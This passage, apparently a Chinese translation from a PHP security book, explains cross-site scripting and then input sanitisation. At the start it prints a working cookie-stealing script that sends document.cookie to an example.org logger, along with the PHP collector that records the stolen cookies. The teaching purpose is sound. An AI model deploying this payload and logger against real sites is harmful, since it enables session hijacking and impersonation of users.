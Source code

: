 ```
<script>
 document.location = 'http://www.example.org/logger.php?cookie=' +
                      document.cookie
</script>

```

`logger.php`文件可能如下所示:

```
<?php
    // Assign GET variable
    $cookie = $_GET['cookie'];

    // Format variable in easily accessible manner
    $info = "$cookie\n\n";

    // Write information to file
    $fh = @fopen("/home/cookies.txt", "a");
    @fwrite($fh, $info);

    // Return to original site
    header("Location: http://www.example.com");
?>

```

如果电子商务网站没有将 cookie 信息与特定的 IP 地址进行比较(这种保护措施在决定忽略数据清理的网站上可能并不常见)，攻击者所要做的就是将 cookie 数据组装成浏览器支持的格式，然后返回到从中挑选信息的网站。攻击者现在很有可能伪装成无辜的用户，可能进行未经授权的购买，破坏论坛，并造成其他破坏。

现代浏览器既支持内存 cookies，也支持仅 http cookie。这使得攻击者更难从注入的 JavaScript 访问 cookie 值。将会话 cookie 设置为 http-only 是通过将`session.cookie_httponly = 1`添加到 php.ini 文件来完成的。

### 净化用户输入

鉴于未经检查的用户输入可能对网站及其用户产生的可怕影响，人们会认为实施必要的保护措施一定是一项特别复杂的任务。毕竟，这个问题在所有类型的 web 应用程序中都很普遍，所以预防一定很困难，对吗？具有讽刺意味的是，防止这些类型的攻击实际上是一件微不足道的事情，首先通过几个函数之一传递输入，然后再用它执行任何后续任务。考虑如何处理用户提供的输入是很重要的。如果它作为数据库查询的一部分传递，您应该确保内容被视为文本或数字，而不是数据库命令。如果交还给用户或不同的用户，您应该确保内容中没有包含 JavaScript，因为这可能会被浏览器执行。

为此，有四个标准函数可用:`escapeshellarg()` `, escapeshellcmd()` `, htmlentities()`和`strip_tags()`。您还可以访问本机过滤器扩展，它提供了各种各样的验证和净化过滤器。本节的剩余部分将对这些清理功能进行概述。

### 注意

请记住，本节(以及整个章节)中描述的安全措施虽然在许多情况下都有效，但只提供了许多可能的解决方案中的几个。因此，尽管您应该密切关注本章中讨论的内容，但您也应该确保阅读尽可能多的其他与安全相关的资源，以获得对该主题的全面理解。

网站由两个不同的组件构建而成:生成输出并处理用户输入的服务器端，以及呈现服务器提供的 HTML 和其他内容以及 JavaScript 代码的客户端。这种双层模式是安全挑战的根源。即使所有的客户端代码都是由服务器提供的，也没有办法确保它被执行或者不被篡改。用户可能不使用浏览器与服务器交互。出于这个原因，建议永远不要相信来自客户端的任何输入，即使您花时间用 JavaScript 创建了很好的验证函数，为遵循所有规则的用户提供了更好的体验。

#### 转义 Shell 参数

`escapeshellarg()`函数用单引号分隔它的参数，并对引号进行转义。其原型如下:
